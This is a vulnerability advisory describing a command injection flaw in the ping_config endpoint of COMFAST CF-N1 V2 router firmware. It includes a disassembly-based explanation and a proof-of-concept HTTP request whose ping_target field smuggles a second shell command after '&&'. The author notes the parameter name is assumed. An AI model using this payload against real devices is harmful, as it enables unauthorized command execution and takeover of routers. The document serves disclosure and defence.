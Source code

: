 # COMFAST CF-N1 V2 V2.6.0 Command Injection in `ping_config`

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) in the `ping_config` API (`/usr/bin/webmgnt`, function `sub_441EC4`). Attackers can inject arbitrary commands via a user-controlled parameter involved in ping configuration, enabling unauthorized execution of system commands, sensitive information access, or full device compromise.

![PoC 2 Result: Root Directory Listing](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: http://www.comfast.com.cn/index.php?m=content&c=index&a=show&catid=31&id=772

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=ping_config`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_441EC4` function handling the `ping_config` section. Analysis of the disassembly shows that a user-controlled parameter is unsanitized and directly used in a command construction process.

Key code flow:



1.  The function parses user input via `blobmsg_parse_0`, extracting configuration parameters (including the vulnerable parameter).

2.  The extracted parameter (`v4`) is inserted into a command string using `sprintf_0(v8, &aBinPing4C4W2ST..., v4)`, where `aBinPing4C4W2ST` likely represents a ping command template (e.g., `ping -c 4 %s`).

3.  The constructed command is executed via `system_0(v8)`, with no input sanitization to block malicious command separators.

This allows attackers to inject arbitrary commands by adding delimiters (e.g., `&&`, `;`, `|`) to the vulnerable parameter, as the input is directly concatenated into the executed system command.

![PoC 2 Result: Root Directory Listing](./imgs/1.png)
![PoC 2 Result: Root Directory Listing](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: List `/etc` Directory Contents



```
POST http://192.168.0.1/cgi-bin/mbox-config?method=SET\&section=ping\_config HTTP/1.1

Host: cflogin.cn

Content-Length: 124

Accept: application/json, text/javascript, \*/\*; q=0.01

X-Requested-With: XMLHttpRequest

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36

Content-Type: application/json

Origin: http://cflogin.cn

Referer: http://cflogin.cn/guide/guide\_router.html

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Cookie: COMFAST\_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567

Connection: close

{"ping\_target":"8.8.8.8 && ls /etc > /www-comfast/ping\_test.txt","count":4,"timeout":2}
```



*   **Assumptions**: The vulnerable parameter is named `ping_target` (adjust if the actual parameter name differs based on further analysis).

*   **Steps**:

1.  Send the POST request using `curl`, Burp Suite, or similar tools.

2.  Access `http://cflogin.cn/ping_test.txt` to view the contents of the `/etc` directory.

*   **Result**: The output of `ls /etc` is written to `/www-comfast/ping_test.txt`, confirming arbitrary command execution.
*   
![PoC 2 Result: Root Directory Listing](./imgs/3.png)

